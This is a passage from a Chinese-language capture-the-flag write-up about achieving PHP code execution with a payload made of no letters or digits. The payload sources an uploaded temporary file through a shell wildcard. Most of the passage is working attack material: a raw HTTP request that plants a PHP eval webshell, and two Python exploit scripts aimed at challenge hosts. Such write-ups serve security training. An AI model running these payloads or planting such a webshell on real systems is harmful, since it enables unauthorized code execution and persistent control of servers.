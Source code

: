 最后的[@-[]表示ASCII在@和[之间的字符，也就是大写字母，所以最后会执行的文件是tmp文件夹下结尾是大写字母的文件。由于PHP生成的tmp文件最后一位是随机的大小写字母，所以我们可能需要**多试几次**才能正确的执行我们的代码。(50%的几率嘛)
 固有最终数据包:

```http
POST /?code=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: xxxxxx:2333
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 106

----------123
Content-Disposition:form-data;name="file";filename="1.txt"

echo "<?php eval(\$_POST['shell']);" > success.php
----------123--
```

上面我们写入了一个shell。如图，成功Getshell。
![image-20231019222210154](assets/image-20231019222210154.png)

#### 给个利用脚本

```python
#GET的
#coding:utf-8
#author yu22x
import requests
url="http://xxx/test.php?code=?><?=`. /???/????????[@-[]`;?>"
files={'file':'cat f*'}
response=requests.post(url,files=files)
html = response.text
print(html)

#改个POST的：
#coding:utf-8
import requests
url="http://b23b5651-5117-4813-8704-59e6e86d1b87.challenge.ctf.show/"
files={'file':'cat f*'}
datas={"cmd":"?><?=`. /???/????????[@-[]`;?>"}
response=requests.post(url,files=files,data = datas)
html = response.text
print(html)
```